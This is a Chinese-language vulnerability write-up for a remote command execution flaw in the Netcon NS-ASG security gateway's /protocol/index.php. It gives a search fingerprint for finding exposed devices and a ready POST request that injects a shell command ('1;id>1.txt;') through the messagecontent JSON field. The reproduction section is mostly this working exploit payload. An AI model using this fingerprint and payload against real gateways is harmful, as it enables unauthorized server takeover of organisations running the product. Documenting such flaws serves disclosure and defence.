





# 网康 NS-ASG安全网关 index.php 远程命令执行漏洞

## 漏洞描述

网康 NS-ASG安全网关 index.php文件存在远程命令执行漏洞，攻击者通过构造特殊的请求包可以获取服务器权限

## 漏洞影响

```
网康 NS-ASG安全网关
```

## 网络测绘

```
title=="网康 NS-ASG 应用安全网关"
```

## 漏洞复现

登录页面



存在漏洞的文件为 /protocol/index.php ，通过文件读取可以获取到源码





通过构造请求包进行命令拼接漏洞执行命令

```
POST /protocol/index.php
  
jsoncontent={"protocolType":"getsysdatetime","messagecontent":"1;id>1.txt;"}
```



